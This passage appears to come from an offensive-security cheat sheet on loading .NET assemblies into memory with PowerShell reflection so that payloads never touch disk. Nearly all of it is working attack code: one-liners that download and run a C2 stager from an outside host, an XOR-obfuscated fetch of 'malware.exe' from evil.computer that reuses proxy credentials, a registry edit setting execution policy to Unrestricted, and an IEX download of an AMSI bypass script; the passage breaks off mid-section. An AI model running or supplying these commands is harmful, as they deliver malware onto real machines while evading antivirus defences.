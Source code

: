 We could also encode the DLL to a base64 string and load it without it needing to be on disk: 🚩

```powershell
PS > $dll = [System.IO.File]::ReadAllBytes("C:\Users\IEUser\source\repos\ReflectionDemo\bin\Release\ReflectionDemo.dll")
PS > $dllstring = [System.Convert]::ToBase64String($dll)
PS > [System.Reflection.Assembly]::Load([System.Convert]::FromBase64String($dllstring))
PS > [ReflectionDemo.DemoClass]::PrintStuff()
Hello World
```

Or download the DLL from a remote location:

```powershell
PS > $dll = (new-object net.webclient).DownloadData("http://10.8.0.6/ReflectionDemo.dll")
PS > [System.Reflection.Assembly]::Load($dll)
PS > [ReflectionDemo.DemoClass]::PrintStuff()
Hello World
```

You can use this reflection technique to download and run a GruntStager EXE directly from memory, without having it touch disk.  For example:

```powershell
PS > $monk = (new-object net.webclient).downloaddata("http://192.168.152.100/monk.exe")
PS > [System.Reflection.Assembly]::Load($monk)

GAC Version Location
--- ------- --------
False v4.0.30319

PS > [MonkStager.MonkStager]::Execute()
```

__Note:__ .NET 4.8, Assembly.Load is AMSI-aware 🚩

### Load remote .NET assembly with PowerShell and XOR Key

```powershell 

$wc=New-Object System.Net.WebClient;$wc.Headers.Add("User-Agent","Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0");$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials
$k="XOR\_KEY";$i=0;[byte[]]$b=([byte[]]($wc.DownloadData("https://evil.computer/malware.exe")))|%{$_-bxor$k[$i++%$k.length]}
[System.Reflection.Assembly]::Load($b) | Out-Null
$parameters=@("arg1", "arg2")
[namespace.Class]::Main($parameters)
```

### Load remote .NET assembly, AMSI patch, APPDATA execution

```powershell
First, the payload script would change PowerShell’s running configuration so the current user would be allowed to execute PowerShell scripts with no restrictions, using the following command:

New-ItemProperty -Path 'HKCU:Software\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell' -Name 'ExecutionPolicy' -Value "Unrestricted" -PropertyType String -Force

Secondly, the script will download and execute an AMSI patch bypass: 
 
$wr = [System.NET.webRequest]::Create('http://192.168.1.125/AMSI-bypass.ps1')
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()

The script then proceeds to download a Windows executable file from a remote server, using .NET’s WebClient class:
```